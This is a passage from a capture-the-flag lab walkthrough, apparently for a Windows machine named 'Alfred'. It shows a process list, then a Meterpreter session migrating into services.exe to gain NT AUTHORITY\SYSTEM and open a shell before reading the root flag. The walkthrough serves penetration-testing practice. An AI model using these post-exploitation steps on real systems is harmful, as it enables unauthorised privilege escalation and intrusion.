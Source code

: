 ```
 2636  668   taskhost.exe          x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\taskhost.exe
 2680  772   WmiPrvSE.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wbem\WmiPrvSE.exe
 3024  668   TrustedInstaller.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Windows\servicing\TrustedInstaller.exe
 3060  524   conhost.exe           x64   0        alfred\bruce                  C:\Windows\System32\conhost.exe
```

We have many processes to use, we can choose the**services.exe** process with PID **668** and we migrate to it:
```
meterpreter > migrate 668
[*] Migrating from 928 to 668...
[*] Migration completed successfully.
meterpreter > shell
Process 2920 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

```

#### 5. Read the root.txt file at C:\Windows\System32\config
Since we have the system permission, we can read the root flag in the **C:\Windows\System32\config** folder.